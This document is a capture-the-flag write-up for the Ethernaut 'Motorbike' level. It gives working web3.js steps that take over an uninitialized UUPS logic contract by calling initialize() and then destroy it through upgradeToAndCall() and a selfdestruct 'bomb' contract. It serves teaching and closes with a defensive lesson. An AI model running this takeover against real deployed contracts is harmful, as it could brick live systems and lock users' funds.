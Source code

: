 # Motorbike

# Problem Statement
```
Ethernaut's motorbike has a brand new upgradeable engine design.

Would you be able to selfdestruct its engine and make the motorbike unusable ?

Things that might help:
- EIP-1967
- UUPS upgradeable pattern
- Initializable contract
```

# Solution

NOTES
The key thing to keep in mind here is that any storage variables defined in the logic contract `Engine` is actually stored in the proxy's (`Motorbike`) storage. Proxy is the storage layer here which only delegates the logic to logic/implementation contract (logic layer).
Flow looks like this:
```
send transaction -> proxy/storage contract -> logic contract
```
The attack vector is the ability to call the logic contract `Engine`'s `initialize()` method to set your EOA as the `upgrader`. From there you can call `upgradeToAndCall()` to point to your contract with the `selfdestruct`.<br>
Note that the `selfdestruct` will happen in the context of the `Engine` as `delegatecall` is used.
The upgrading of contracts is the responsibility of the logic contract `Engine` as the proxy `MoterBike` does not have that capability.
Thus, when the `selfdestruct` happens `Moterbike` will be useless as the `_IMPLEMENTATION_SLOT` is pointing to a `selfdestruct`ed contract and it has no way of changing/upgrading it do a new logic contract.

So lets implement this. First, get the address of the logic contract `Engine`:
```
let logicAddress = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
// '0x0000000000000000000000007c56450c6fbcd100aaad8b4838dfce3908e90baf'
```
Recall that every storage slot is 32 bytes and `address`es are 20 bytes. So lets grab the address:
```
logicAddress = '0x' + logicAddress.slice(-40) // '0x7c56450c6fbcd100aaad8b4838dfce3908e90baf'
```
Set the `upgrader` to be your EOA address:
```
const initializeData = web3.eth.abi.encodeFunctionSignature("initialize()")
await web3.eth.sendTransaction({ from: player, to: logicAddress, data: initializeData })
```
Check that `upgrader` is your address:
```
const upgraderData = web3.eth.abi.encodeFunctionSignature("upgrader()")
await web3.eth.call({from: player, to: logicAddress, data: upgraderData})
// '0x000000000000000000000000YOUR_EOA_ADDRESS'
```
Next, deploy the `MoterbikeBomb` contract.
After it is deployed run the `Engine`'s `upgradeToAndCall` method to refer to this new `MoterbikeBomb` contract:
```
const bombAddress = "0xYOUR_BOMB_ADDRESS";
const explodeData = web3.eth.abi.encodeFunctionSignature("explode()")
const upgradeFunction = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}
const upgradeParams = [bombAddress, explodeData]
const upgradeData = web3.eth.abi.encodeFunctionCall(upgradeFunction, upgradeParams)
await web3.eth.sendTransaction({from: player, to: logicAddress, data: upgradeData})
```
We've completed this lesson!

# Key Learnings
- Never leave logic/implementation contracts uninitialized.
